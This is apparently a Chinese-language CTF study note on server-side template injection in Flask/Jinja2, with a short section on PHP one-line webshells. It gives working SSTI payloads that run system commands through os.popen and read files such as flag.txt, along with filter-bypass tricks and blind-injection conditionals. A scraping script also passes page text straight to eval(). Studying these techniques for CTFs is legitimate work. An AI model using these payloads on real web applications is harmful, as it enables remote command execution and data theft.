 # SSTI and 杂项

python脚本练习：https://fdujwc.cn/befast/

一秒发送计算（秋名山车神）

```python
import requests
import re
url = 'https://fdujwc.cn/befast/'
s = requests.Session()
source = s.get(url)
expression = re.search(r'(\d+[+\-*])+(\d+)', source.text).group()
result = eval(expression)
post = {'value':result}
print(s.post(url,data=post).text)
```

### 一句话木马的基础补充：

https://blog.csdn.net/weixin_39190897/article/details/86772765

一句话木马（**简称Webshell**）

例题就是极客：


密码是attack

这句话什么意思呢？

（1）php的代码要写在<?php ?>里面，服务器才能认出来这是php代码，然后才去解析。
（2）@符号的意思是不报错，即使执行错误，也不报错。

### SSTI jinja2模板学习

flask自带

模板仅仅是文本文件。它可以生成任何基于文本的格式（HTML、XML、CSV、LaTex 等等）。 它并没有特定的扩展名， .html 或 .xml 都是可以的。

瞎写的python以用于学习：

```python
from flask import Flask, escape, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return 'index'

@app.route('/login')
@app.route('/login/<name>')
def login(name = None):
    return render_template('hi.html',name=name)

```

```html
#hi.html
<!doctype html>
<html>
<title>Hello from Flask</title>
{% if name %}
  <h1>Hello {{ name }}!</h1>
{% else %}
  <h1>Hello, World!</h1>
{% endif %}
</html>
```

### ssti 任意命令执行：

```python
{{"".__class__.__mro__.__getitem__(1).__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}

{{"".__class__.__mro__[1].__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}
```

```pyyhon
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()}}
#文件读取
__builtins__以调动函数
```

```
"".__class__
```

通过**bases**或者**mro**来获取到object基类

这里怎么在网页上找到相应的类？fuzz即可

```
"".__class__.__mro__[1]
```

```python
"".__class__.__mro__[1].__subclasses__()
#子类
for i in enumerate(''.__class__.__mro__[1].__subclasses__()): print (i)
#寻找子类


{{"".__class__.__mro__[1].__subclasses__()[118].__init__.__globals__}}
init 初始化 globals 全局

["os"]["popen"]("whoami").read()
```

os.popen("")调用系统命令，可以实现一个“管道”

read()从地址读取回显

### BYPASS技巧

引号：

用元组，列表等引出基类，开头去除""为[]or()

使用request.args导入字符（这种方法没法在我写的html复现， 因为没法传参）

小括号：

一旦被过滤，无法执行函数，但是可以玩玩{{config}}这样的小玩意儿

目前貌似没有不用小括号传参的方法

关键字：

1、同引号：request.args

```python
2、"__cl"+"ass __"
3、base64\utf-8 decode 
#倒序[::1]
chr()
```

点号：

```
"".__class__等价于""["__class__"]
```

如果被阉割了模块，可以

```
reload（__builtins__）
```

getitem取用元素，从而绕过[]

过滤{{}}：

可以试试{%%}

### 盲注

```
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()[0:1] == 'A'}} //true

{%if ().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()[0:1] == 'a' %} konodioda!{% endif%}
```

利用curl将执行结果带出来

脚本还不会写，盲注的方法还不太懂。下一次研究再尝试写出脚本



**getattr()** 函数用于返回一个对象属性值。

```
getattr(getattr((),'__bases__'),"__class__")
```

配合base64， chr等食用效果更佳。字符串总是能玩出许多花样的



### 防御

禁用()

多赋值几次：

get传参给user user又套模板什么的